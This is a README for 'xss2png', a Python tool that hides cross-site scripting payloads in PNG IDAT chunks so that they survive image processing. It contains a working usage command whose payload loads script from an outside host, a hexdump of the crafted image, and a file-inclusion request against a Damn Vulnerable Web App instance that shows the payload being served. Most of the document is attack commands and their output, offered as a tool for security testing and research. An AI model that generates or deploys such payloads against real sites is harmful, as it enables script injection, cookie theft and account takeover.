 # xss2png
PNG IDAT chunks XSS payload generator

A simple tool to generate PNG images with XSS payloads stored in PNG IDAT chunks

*Huge thanks to Nathaniel McHugh for sharing his PHP source code with me*

### Usage

```
~/$ python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
               ____                    
 __  _____ ___|___ \ _ __  _ __   __ _ 
 \ \/ / __/ __| __) | '_ \| '_ \ / _` |
  >  <\__ \__ \/ __/| |_) | | | | (_| |
 /_/\_\___/___/_____| .__/|_| |_|\__, |
                    |_|          |___/
 PNG IDAT chunks XSS payload generator

[i] Using payload: <SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>

[i] Generating final PNG output
[!] PNG output saved as: xss.png
```
### Example

<img src="xss.png">

```
~/$ hexdump -C xss.png 
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 79 49 44 41  54 78 9c 63 fc 3c 53 43  |....yIDATx.c.<SC|
00000030  52 49 50 54 20 53 52 43  3d 2f 2f 58 53 53 2e 56  |RIPT SRC=//XSS.V|
00000040  41 56 4b 41 4d 49 4c 2e  43 5a 3e 3c 2f 53 43 52  |AVKAMIL.CZ></SCR|
00000050  49 50 54 3e 20 a0 ff ba  e3 fc ab 7f cf dc 0c 7b  |IPT> ..........{|
00000060  c5 f2 d2 cb 43 f1 c1 fd  db 2a cf df de ff fc ff  |....C....*......|
00000070  f9 87 1f 56 7f ff f2 04  7a 5c bf 72 f7 ca b3 37  |...V....z\.r...7|
00000080  9a 7a 6b 3b fb 18 19 19  46 c1 28 18 05 a3 60 14  |.zk;....F.(...`.|
00000090  8c 82 51 30 0a 46 c1 28  18 05 43 0e 00 00 1b 22  |..Q0.F.(..C...."|
000000a0  26 02 5b 4d 02 76 00 00  00 00 49 45 4e 44 ae 42  |&.[M.v....IEND.B|
000000b0  60 82                                             |`.|
000000b2
````

#### Damn Vulnerable Web App
`https://dvwa.capturetheflag.cz/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

```
HTTP/1.1 200 OK
Date: Fri, 23 Aug 2019 00:13:37 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3422
Connection: close

�PNG


IHDR  ���yIDATx�c�<SCRIPT SRC=\\XSS.VAVKAMIL.CZ></SCRIPT> �����=s3��K�_s������?��_�X1��	��~���go4��v�322��Q0
F�(�`��Q0
�4�%�۠IEND�B`�
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
```

### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)
